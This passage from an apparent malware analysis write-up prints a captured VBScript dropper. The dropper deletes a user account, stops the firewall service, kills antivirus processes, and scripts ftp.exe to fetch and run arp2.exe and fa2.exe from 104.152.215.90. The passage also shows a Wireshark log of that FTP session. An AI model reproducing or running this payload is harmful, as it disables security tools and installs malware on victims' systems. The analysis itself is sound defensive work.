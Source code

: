 Note, I'm not going to post the entire response here. Here are the more interesting portions of the payload:

```vbs
<SCRIPT LANGUAGE="VBScript">
function runmumaa() 
On Error Resume Next
set shell=createobject("wscript.shell")
shell.run "cmd.exe /q /c net user admin /del",0
shell.run "cmd.exe /q /c sc stop sharedaccess",0
shell.run "cmd.exe /q /c md C:\RECYCLER",0
shell.run "cmd.exe /q /c taskkill /f /im 360rp.exe",0
shell.run "cmd.exe /q /c taskkill /f /im 360sd.exe",0
shell.run "cmd.exe /q /c taskkill /f /im 360tray.exe",0
shell.run "cmd.exe /q /c taskkill /f /im arp1.exe",0
shell.run "cmd.exe /q /c taskkill /f /im arp2.exe",0
shell.run "cmd.exe /q /c taskkill /f /im 360.exe",0
shell.run "cmd.exe /q /c taskkill /f /im 361.exe",0
shell.run "cmd.exe /q /c del  C:\docume~1\alluse~1\............\....\....\360.exe",0
shell.run "cmd.exe /q /c del  C:\docume~1\alluse~1\............\....\....\361.exe",0
shell.run "cmd.exe /q /c del  C:\RECYCLER\360.exe",0
shell.run "cmd.exe /q /c del  C:\RECYCLER\361.exe",0
shell.run "cmd.exe /q /c copy c:\windows\system32\ftp.exe C:\RECYCLER\fp.exe",0
shell.run "cmd.exe /q /c copy c:\windows\system32\ftp.exe c:\windows\system32\fp.exe",0
shell.run "cmd.exe /q /c copy %systemroot%\system32\ftp.exe %systemroot%\system32\fp.exe",0
shell.run "cmd.exe /q /c echo open 104.152.215.90>C:\RECYCLER\fp.dw&echo do1>>C:\RECYCLER\fp.dw&echo 123456>>C:\RECYCLER\fp.dw&echo bin >>C:\RECYCLER\fp.dw&echo get arp2.exe C:\RECYCLER\arp2.exe>>C:\RECYCLER\fp.dw&echo get fa2.exe C:\RECYCLER\fa2.exe>>C:\RECYCLER\fp.dw&echo bye >>C:\RECYCLER\fp.dw&ping 127.0.0.1 -n 10&FP -s:C:\RECYCLER\fp.dw&del C:\RECYCLER\fp.dw /q&copy C:\RECYCLER\fa2.exe C:\docume~1\alluse~1\............\....\....\fa2.exe&copy C:\RECYCLER\arp2.exe C:\docume~1\alluse~1\............\....\....\arp2.exe&start C:\RECYCLER\fa2.exe&C:\RECYCLER\arp2.exe&del C:\RECYCLER\fp.exe",0
shell.run "cmd.exe /q /c echo open 104.152.215.90>C:\RECYCLER\ftp.dw&echo do1>>C:\RECYCLER\ftp.dw&echo 123456>>C:\RECYCLER\ftp.dw&echo bin >>C:\RECYCLER\ftp.dw&echo get arp2.exe C:\RECYCLER\arp22.exe>>C:\RECYCLER\ftp.dw&echo get fa2.exe C:\RECYCLER\faa.exe>>C:\RECYCLER\ftp.dw&echo bye >>C:\RECYCLER\ftp.dw&ping 127.0.0.1 -n 80&FtP -s:C:\RECYCLER\ftp.dw&del C:\RECYCLER\ftp.dw /q&copy C:\RECYCLER\faa.exe C:\docume~1\alluse~1\............\....\....\faa.exe&copy C:\RECYCLER\arp22.exe C:\docume~1\alluse~1\............\....\....\arp22.exe&start C:\RECYCLER\faa.exe&C:\RECYCLER\arp22.exe&del C:\RECYCLER\fp.exe",0
end function
</script>
```

At a quick glance, you can see something nasty is going on here. There are references to files in the `RECYCLER` folder, which we'll dig through shortly.

Next, I noticed interesting FTP traffic in Wireshark. The FTP server's address is actually listed in the VBScript above, which is the following:

- 104.152.215.90

Next, the juicy details about the FTP session:

```
220 Serv-U FTP Server v6.0 for WinSock ready...
USER do1
331 User name okay, need password.
PASS 123456
230 User logged in, proceed.
TYPE I
200 Type set to I.
PORT 192,168,130,135,4,52
200 PORT Command successful.
RETR arp2.exe
150 Opening BINARY mode data connection for arp2.exe (412693 Bytes).
226 Transfer complete.
PORT 192,168,130,135,4,53
200 PORT Command successful.
```